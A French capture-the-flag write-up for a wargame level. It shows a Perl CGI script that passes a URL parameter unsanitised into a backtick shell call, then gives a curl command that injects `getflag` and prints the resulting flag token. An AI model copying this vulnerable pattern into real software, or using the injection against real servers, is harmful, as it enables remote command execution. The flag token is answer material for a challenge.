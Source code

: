 On trouve dans le dossier **home** un fichier perl nommé **level04.pl** contenant le code suivant:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};						# Permet de mettre un parametre
print "Content-type: text/html\n\n";	# Affiche sous forme HTLM
sub x {									# Fonction x
  $y = $_[0];							# Prend le premier parametre
  print `echo $y 2>&1`;					# Echo le parametre
}
x(param("x"));							# Appelle la fonction</code></pre>
```

On comprend donc que le perl va s'exécuter si l'on va sur la page IP:4747,
de plus il prend un paramètre (grâce à l'url) x, qu'il va **echo**.

<pre><code>> curl IP:4747?x=test
test
</code></pre>

On se rend compte qu'il n'y a pas de verification spéciale par rapport au paramètre, nous essayons donc d'injecter une commande:

<pre><code>> curl IP:4747?x=\`getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
</code></pre>
> On échappe les **`** pour éviter de mettre le retour de la commande **getflag**, l'objectif est que la commande s'éxecute au moment du **echo**